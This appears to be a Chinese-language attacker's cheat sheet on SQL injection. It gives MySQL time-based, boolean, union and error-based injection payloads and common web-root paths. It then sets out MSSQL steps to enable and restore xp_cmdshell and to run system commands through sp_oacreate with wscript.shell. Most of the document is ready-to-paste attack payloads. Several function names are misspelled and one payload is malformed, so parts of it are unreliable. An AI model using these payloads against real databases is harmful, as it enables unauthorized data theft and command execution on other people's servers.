 # SQL注入

能用SQLmap就SQLmap，手注入😂

**Mysql为例**

```
Mysql元数据库information_schema
                        |
                        `—— tables
                        |      |
                        |      `—— table_name (所有表名)
                        |      |
                        |      `—— table_schema (表所在的库)
                        |
                        `—— columns
                        |
                        `—— columns (所有字段)
                        |
                        `—— table_name (字段所在的表)
                        |
                        `—— table_schema (字段所存在的库)
```

**Mysql常用函数**

```mysql
version() mysql当前数据库版本
Database() 当前数据库名
user () 用户名
current_user () 当前用户名
system_user () 系统用户名
@@basedir 数据库路径
@@datadir 数据文件路径
@@versoin_compile_os 操作系统版本

length() 返回字符串长度

subsring() 截取字符串
substr() 
mind ()                     —————参数：
                                   1.截取的字符串
                                   2.截取起始位置，从1开始计数
                                   3.截取长度

left() 从左侧取字符串个数
concat() 没有分隔符连接字符串
concat_ws() 有分隔符连接字符串
group_concat() 不同行的内容返回在同一行

ord() 返回ASCII码
ascii() 

hex() 转换十六进制
unhex() hex反向操作
md5() 返回md5值
floor(x) 返回不大于x的最大整数
round(x) 返回参数x接近的整数
rand() 返回0-1之间的随机浮点数

load_file() 读取文件，并返回文件内容作为字符串

sleep() 指定睡眠时间
if(True,t,f) 如果是True执行t否则执行f
find_in_set() 返回字符串在字符列表中的位置
benchmark() 指定语句执行的次数
name_const() 返回表作为结果
```

## 注入类型

- **sql注入延迟注入**

```mysql
判断是否存在延迟注入 ▼
                and sleep(5)
如果存在返回时间将会延迟5s
数据库名称长度payload：
and if(length(database())=$,sleep(5),1)--+  $为长度数值
数据库名payload：
and if(substr(database(),$,1)='a',sleep(5),1)--+  $为长度数值 a为名称中的字符
```

- **sql注入布尔注入**

```mysql
延迟型和布尔型payload核心部分的构造相同
判断是否存在延时注入 ▼
        and length(database())=0
数据库名称长度payload：
and length(database())=0--+
数据库名称名称payload：
and length(database(),$,1)='a'--+ $为长度数值 a为名称中的字符
联合查询union方法
数据库名称名称payload：
union select 1,database()--+
```

- **sql注入报错注入**

```mysql
extractvalue() 方法
数据库名称名称payload：
and extractvalue(1,concat(0x7e,(select database()))) --+ 库名称
updatexml()类似extractvalue() 方法
```





## 



## 扩展

```
winserver的iis默认路径c:\Inetpub\wwwroot
linux的nginx一般是/usr/local/nginx/html，/home/wwwroot/default，/usr/share/nginx，/var/www/htm等
apache 就.../var/www/htm，.../var/www/html/htdocs
phpstudy 就是...\PhpStudy20180211\PHPTutorial\WWW\
xammp 就是...\xampp\htdocs
```

# 攻击Mssql数据库命令执行总结

## xp_cmdshell利用

**前提条件：**

- Mssql数据库服务未降权
- 已获取到数据库密码

xp_cmdshell是Sql Server中的一个组件，我们可以用它来执行系统命令

### **判断xp_cmdshell状态**

我们可以在master.dbo.sysobjects中查看xp_cmdshell状态

```mssql
select * from master.dbo.sysobjects where xtype='x' and name='xp_cmdshell'
```

只用判断存在，利用count(*)即可。

```mssql
select count(*) from master.dbo.sysobjects where xtype='x' and name='xp_cmdshell'
```

存在即返回1

### **启用xp_cmdshell**

我们可以利用EXEC启用xp_cmdshell

```mssql
EXEC sp_configure 'show advanced options', 1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell', 1;RECONFIGURE;
```

### **利用xp_cmdshell执行命令**

通过xp_cmdshell执行系统命令指令如下

```mssql
exec master..xp_cmdshell 'whoami'
```

### **恢复被删除的xp_cmdshell**

我们可以利用xplog70.dll恢复被删除的xp_cmdshell

```mssql
Exec master.dbo.sp_addextendedproc 'xp_cmdshell','D:\\xplog70.dll'
```

## **COM组件利用**

前提条件：

- Mssql数据库服务未降权
- 已获取到数据库密码

我们可以借助Sql Server中的COM组件SP_OACREATE来执行系统命令。

### **判断SP_OACREATE状态**

我们可以在master.dbo.sysobjects中查看SP_OACREATE状态

```mssql
select * from master.dbo.sysobjects where xtype='x' and name='SP_OACREATE'
```

只用判断存在，利用count(*)即可

```mssql
select count(*) from master.dbo.sysobjects where xtype='x' and name='SP_OACREATE'
```

存在即返回1

### **启用SP_OACREATE**

利用EXEC启用SP_OACREATE

```mssql
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE WITH OVERRIDE;
EXEC sp_configure 'Ole Automation Procedures', 1;
RECONFIGURE WITH OVERRIDE;
```

### **利用SP_OACREATE执行命令**

通过SP_OACREATE执行系统命令指令如下

```mssql
declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'c:\windows\system32\cmd.exe /c whoami >c:\\1.txt'
```